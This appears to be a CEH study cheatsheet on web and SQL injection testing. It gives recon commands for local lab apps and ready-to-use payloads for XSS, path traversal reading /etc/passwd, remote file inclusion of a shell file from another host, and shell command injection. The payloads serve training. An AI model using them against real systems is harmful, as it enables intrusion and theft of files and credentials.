

repository: morandeirachema/CyberCerts · page: certs/ceh/cheatsheets/web-sqli/index.html · generator: mkdocs

# Web & SQL Injection

Quick reference for web-app testing. Pairs with [Module 14](../modules/14-hacking-web-applications/README.md) and [Module 15](../modules/15-sql-injection/README.md). Targets = the Docker web apps (`localhost:8081–8084`) or **authorized** sites only.

> Proxy the browser through **Burp** (`127.0.0.1:8080`, install its CA) — prove a finding by hand in **Repeater**, then automate.

## Discovery & fingerprinting
```bash
whatweb http://localhost:8081                       # tech stack
ffuf -u http://localhost:8081/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
ffuf -u http://localhost:8081/FUZZ -w list.txt -e .php,.txt -mc 200,301,302
gobuster dir -u http://localhost:8081 -w /usr/share/wordlists/dirb/common.txt -x php,txt
nikto -h http://localhost:8081                      # server misconfig/CVEs
```

## Cross-site scripting (XSS) test payloads
```
<script>alert(document.domain)</script>
"><img src=x onerror=alert(1)>              # attribute breakout
javascript:alert(1)                         # href / DOM sink
'"><svg/onload=alert(1)>
```
Fix = **context-aware output encoding + CSP** (not just input filtering).

## LFI / traversal / RFI
```
?page=../../../../etc/passwd
?page=....//....//etc/passwd                # filter bypass
?page=php://filter/convert.base64-encode/resource=index.php   # read source
?page=http://192.168.56.10/shell.txt        # RFI (needs allow_url_include)
```

## Command injection
```
; id            | id            && whoami           `id`           $(id)
127.0.0.1; cat /etc/passwd
```
